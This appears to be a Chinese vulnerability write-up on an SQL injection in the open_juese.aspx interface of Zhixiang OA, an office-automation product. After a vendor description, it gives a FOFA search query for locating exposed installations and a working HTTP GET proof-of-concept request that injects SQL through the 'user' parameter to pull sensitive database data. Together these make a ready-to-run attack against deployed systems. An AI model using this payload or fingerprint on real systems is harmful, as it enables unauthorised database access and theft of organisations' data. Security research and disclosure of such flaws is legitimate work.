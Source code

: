 # 致翔OA系统接口open_juese存在SQL注入漏洞
      致翔科技由广州致翔计算机科技有限公司和深圳分公司以及各地还有多家办事处组成，是以IT软件技术和管理不断创新为核心的客户需求导向型的高新技术和双软认证软件技术公司。致翔公司产品核心团队主要由具备多年实际企业管理与IT研发经验的专家级技术人才组成，研发与经营产品系列包括:集成多个行业应用功能的智慧协同平台，以及PC网站，手机APP、微信端的研发，可以为企事业单位，教育机构提供行业版本基础上按需定制的管理系统解决方案，目前已经成功应用在华为技术，铁通广东分公司，深圳海丽达幼儿园集团，广州卫监所，东莞南开学校，福州高级中学，长沙明达学校，上海中学东校，深圳凯卓立液压，中国路港集团，南方周末，广东煌上煌食品集团，广州天马摩托车集团公司，深圳电信实业，广东冠盛集团等超过1000家企事业单位，取得了显著的经济和管理效益。致翔OA open_juese存在SQL注入漏洞，未经授权的攻击者可通过该漏洞获取数据库敏感信息。

## fofa
```javascript
app="致翔软件-致翔OA"
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1727332106847-17eef327-0131-44fc-8f66-5e218638666a.png)

## poc
```java
GET /OpenWindows/open_juese.aspx?key=1&name=1&user=-1)+and+1=user--+&requeststr= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731984893405-50be8661-ec4c-4cb0-b0ba-d33128548e03.png)

